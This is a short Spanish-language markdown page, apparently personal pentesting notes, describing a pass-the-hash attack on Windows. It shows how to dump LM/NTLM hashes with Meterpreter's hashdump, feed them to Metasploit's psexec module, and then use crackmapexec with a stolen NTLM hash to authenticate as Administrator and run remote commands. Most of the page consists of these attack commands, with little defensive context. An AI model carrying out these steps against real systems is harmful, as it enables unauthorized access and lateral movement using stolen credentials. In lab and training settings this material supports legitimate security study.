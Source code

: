 ## **psexec en metasploit**

Para el modulo de metasploit “psexec”, además de los hashes ntlm, necesitamos los hashes “lm”. El hash lm son los primeros digitos entre los dos puntos y el hash ntlm es el hash completo que esta señalizado en la captura. Para conseguirlo utilizamos el comando:

- `hashdump`

![image](https://github.com/user-attachments/assets/e75ccdaf-1c08-4f03-90f4-bd5a3cf4297c)

Ahora que tenemos el hash lm que incluye el ntlm, buscamos el modulo de “psexec” en metasploit y establecemos la sesion de meterpreter con la victima con los siguientes campos:

- `sesion`
- `Lport`
- `rhost`
- `set smbuser administrator`
- `set smbpass *hash_lm*`
- `set target Native\ upload (Para utilizar la sesion de meterpreter)`
- `run`

**crackmapexec**

Para crackmapexec nos bastara con el hash ntlm, que el conjunto de digitos que hay en el segundo bloque de los dos puntos y para realizar la conexion utilizaremos el siguiente comando:

- `crackmapexec smb *ip* -u Administrador -H *hash_ntlm*`

![image](https://github.com/user-attachments/assets/a3fc6e5f-ec63-45b7-b94f-0bfda01bad95)

Ahora que sabemos que podemos acceder al sistema utilizaramos el parametro -x para enviar comandos. Da errores pero aparece la informacion.

- `crackmapexec smb *ip* -u Administrador -H *hash_ntlm* -x “ipconfig”`

